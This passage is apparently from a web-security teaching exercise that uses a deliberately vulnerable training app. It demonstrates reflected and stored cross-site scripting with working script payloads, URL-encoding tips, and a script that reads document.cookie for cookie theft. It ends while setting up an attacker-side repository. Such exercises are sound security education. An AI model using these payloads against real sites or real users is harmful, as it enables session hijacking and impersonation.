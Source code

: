 ### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter. This parameter is also not sanitized before being rendered to the page, so we can run JavaScript with it too!

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops, this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=Check%20your%20console%20for%20the%20Javascript%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()` function (run it in the console and copy the result):

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
<- "%3Cscript%3EYOUR%20SCRIPT%20HERE%3C%2Fscript%3E"
```
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie,
you can impersonate them. This page is vulnerable, because it prints out received messages
on the page without escaping (i.e., sanitizing) the HTML.

We can run JavaScript on other users' pages by sending them messages containing the &lt;script&gt; tag. Cookies are accessible (by default) in JavaScript via `document.cookie`, so if we craft the right script tag, we can
steal their cookie!

1. Let's print out the cookie to the console.

```html
<script>
  console.log('I can see your cookies!', document.cookie);
</script>
```

1. Let's keep those cookies when we steal them.

    Make sure you are in your `horizons` folder by running:

    ```bash
    pwd
    ```

    Clone our repository the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app) and create your own branch:

    ```bash
    git clone git@github.com:horizons-school-of-technology/attacker-steal-this-app.git
    cd attacker-steal-this-app
    git checkout -b YOUR GIT USERNAME
    ```
